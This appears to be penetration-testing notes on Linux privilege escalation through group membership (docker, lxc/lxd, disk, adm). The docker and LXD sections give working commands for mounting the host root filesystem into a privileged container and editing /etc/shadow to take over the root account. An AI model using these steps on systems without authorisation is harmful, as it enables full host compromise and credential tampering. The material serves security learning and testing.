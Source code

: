 # Group Based

## Docker

If we are member of docker group we can escalate our privilege to root.

The idea is, we are going to take `/` directory of host machine and mount it to our container. Once the directory is mounted, we will have root inside of our container and we can manipulate any files on this host file system through the container.

*   `docker run -v /:/mnt -it alpine`

    mount `/` from hot machine to `/mnt` with `-it` interactive terminal. using `alpine` image

When victim doesnot have internet, it cannot pull the alpine image, so

* `docker pull alpine` → pull alpine in attacker machine
* `docker save -o alpine.tar alpine` → save alpine image to tar file and transfer to victim
* `docker load -i /path/to/destination/alpine.tar` → load image from tar file

then we are done

* `docker image ls` → shows the images.

Watch this excellent video by Conda[https://youtu.be/pRBj2dm4CDU?list=PLDrNMcTNhhYrBNZ\_FdtMq-gLFQeUZFzWV](https://youtu.be/pRBj2dm4CDU?list=PLDrNMcTNhhYrBNZ\_FdtMq-gLFQeUZFzWV)



## LXC / LXD

Idea is the same as docker.

*   First we will download `Alpine Image` in our machine and transfer it to victim

    A minimal Docker _**image**_ based on _**Alpine**_ Linux with a complete package index and only 5 MB in size!
* `lxd init` to initialize linux container daemon

unzip the `Alpine.zip`

* `lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine`→ import local image.
* `lxc image list` → to list out the images
* `lxc init alpine dollarboysushil -c security.privileged=true` → Start a privileged container with the `security.privileged` set to `true` to run the container without a UID mapping, making the root user in the container the same as the root user on the host. here `alpine` is the name of the image and `dollarboysushil` is the name of the container we are going to spawn
*   `lxc config device add dollarboysushil mydev disk source=/ path=/mnt/root recursive=true` → Mount the host file system.

    we are mounting entire file system `/` of the host to path `/mnt/root`

    `recursive=true` to get all the files and folders.
* `lxc start dollarboysushil`→ starting the container. we can use `lxc list` to view the status
* `lxc exec dollarboysushil /bin/sh` → execute a command inside of our container

Now we are root on the container and container contains the whole file system of host. we can edit the `/mnt/etc/shadow`to remove / change password of root, so that we can login as root in host.



Watch this excellent video by Conda\
[https://youtu.be/7x4gwV632o0?list=PLDrNMcTNhhYrBNZ\_FdtMq-gLFQeUZFzWV](https://youtu.be/7x4gwV632o0?list=PLDrNMcTNhhYrBNZ\_FdtMq-gLFQeUZFzWV)

## DISK

User of disk group has full access within `/dev` such as `/dev/sda`

## ADM

Members of the adm group are able to read all logs stored in `/var/log`.



